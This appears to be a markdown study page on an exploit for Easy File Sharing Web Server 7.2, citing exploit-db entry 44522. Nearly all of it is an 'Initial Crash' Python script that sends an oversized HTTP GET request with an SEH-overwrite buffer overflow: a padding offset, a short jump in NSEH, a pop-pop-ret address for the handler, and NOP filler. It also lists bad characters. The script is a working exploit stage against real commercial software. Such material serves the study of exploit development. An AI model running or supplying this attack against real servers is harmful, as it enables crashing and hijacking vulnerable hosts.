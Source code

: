 # Easy File Sharing Web Server 7.2 - DEP Enabled manually

Downloaded from: https://www.exploit-db.com/exploits/44522

## Initial Crash
```py
import socket
import os
import sys
import struct

ip = "127.0.0.1"
port = 80

#\x0a\x0d\x20\x25\x2f\x5c

CRASH_LEN = 5000  # change me
OFFSET = 4061  # change me

payload = b"A" * OFFSET
payload += struct.pack("<I",0x06eb9090) # short jump 8 - NSEH
payload += struct.pack("<I",0x100103fe) #PPR SEH
payload += b"\x90" * 10
payload += b"D" * (CRASH_LEN - len(payload))


buffer = b"GET "
buffer += payload
buffer += b" HTTP/1.1\r\n"

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()
```
